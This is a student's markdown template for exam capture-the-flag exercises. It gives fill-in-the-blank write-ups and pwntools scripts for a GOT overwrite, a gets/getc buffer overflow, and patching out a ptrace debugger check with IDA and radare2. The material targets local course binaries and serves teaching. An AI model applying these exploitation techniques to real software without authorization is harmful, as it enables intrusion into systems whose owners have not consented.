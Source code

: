 # Templates of solutions of exam exercises

## Write-where-what (GOT exploit)

### Write up
If we execute the program, we discover that the binary provides a simple write-what-where (basically it writes wherever we say so, something we put as input) so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.

A good candidate for the overwrite would be (as usual) the "exit()" function, which absolute address can be found in the terminal using "objdump --dynamic-reloc ./____ and it's: ___________.

We can use radare2, and in particular the command afl to check if there is a function we would like to call to get the flag (which most likely it's never called), in this case it is: ______________. We can in this way also retrieve its address which is ___________-

We can then use pwntools to send these inputs (see script.py).

We simply execute the python script to retrieve the flag which is: ___________________________

### Python script
This could be the script.py mentioned before:
```python
from pwn import *

p = process("./______")

exit_addr = (str(int(0x_______))).encode("ascii")         # ascii-encoded address of the exit() function
useful_function_addr = (str(int(0x_______))).encode("ascii")       # ascii-encoded address of the __________ function

p.sendline(exit_addr)       # send the address of where to writewhere
p.sendline(useful_function_addr)      # send the address of what to writewhere

print(p.recvall())
```
or equivalently, if we want to retrieve all the addresses directly from python:
```python
from pwn import *

context.binary = "./______"
e: ELF = context.binary
p = process()

exit_addr = str(e.got["exit"]).encode("ascii")       # ascii-encoded address of the exit() function
useful_function_addr = str(e.functions["____________"].address).encode("ascii")    # ascii-encoded address of the __________ function

p.sendline(exit_addr)       # send the address of where to writewhere
p.sendline(useful_function_addr)      # send the address of what to writewhere

print(p.recvall())
```


## Buffer overflow (getc/s functions exploit)
### Write-up
We use ida to inspect the binary. We immediately notice that in the function ______________  for handling the user input the "gets()" _______or "getc()"_______  function is used (which we know it doesn't check the input length). 
Moreover, also the content of the buffer isn't checked against anything so we can just fill it with 'A's. In particular, since the target buffer is _________ bytes long, we will have a padding of at least _____ bytes long. (___________watch rdi in cyclic pattern_____________)

Basically, we have a buffer overflow vulnerability, so after overflowing the buffer with the padding we just need to overwrite some stack variables with the correct values. 
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables positiion in the stack).
Using Ida we can see there are a series of test/jump instructions in the binary so we can just try to change the variables according to the strings the stack variables are compared to.
In particular, these strings are in order = _______, __________ etc....

We can send our input using pwntools (see script.py). 

We execute the python file and retrieve the flag which is: ______________________

### Python script
```python
from pwn import *

p = process("./_________")

padding = b'A' * _______  
p.sendline(padding + b'________' + b'_________' etc)

print(p.recvall())

```


## Patching (ptrace version)
### Write up
We can use Ida to inspect the binary. We notice that in the function ___________ there is a debugger check (ptrace) so we need to avoid it in order to use gdb to retrieve the flag. In order to do so, we can patch the binary with Ida and in particular we change the jne _______some_addr______ jump at 0x__________ with jmp _____some_addr______.

Now, we can use gdb-peda and put a breakpoint in 0x__________ (by doin b*0x__________),  ________i.e. just before the flag is deleted by the program / at the moment of the assignment of the variable _______  at _______ with the instruction ___________   ________. So when we run the program with gdb-peda it will stop at the breakpoint where the flag is still visible, so we can retrieve it by doing ______print $eax______. Then we convert it to decimal and after continuing with the debugging (use the command "c") we can input the value discovered and get the flag.

The flag is: _____________


### Patching procedure
Firstly, copy the executable with: cp ./______  __________ _patched.
Then open the __________ _patched with Ida and inspect the binary. If there is a function which check if the debugger is active (ptrace) just disable it (see above how you have made it).

If you cannot patch the binary, as per request of the binary, just use gdb to add a breakpoint in the correct spot (see above how you can do it):

> ***PLEASE NOTE***: If not explicitely forbidden in the text of the exercise, if there is a print_flag function we can overwrite another random instruction with 
>a simple jmp print_flag_address using radare 2, by:
>  ```python
>  r2 -w ./name_prog     # open the file in write mode
>  afl     # to retrieve the address of the function print_flag
>  s 0x___       # to move to the addr of the function to be overwritten
>  wa jmp 0x___      # to patch the binary
>  ```
>  Inside the print_flag there might be some controls done using test/jump instruction, we can simply use ida to patch this instruction and reverse the jumps.




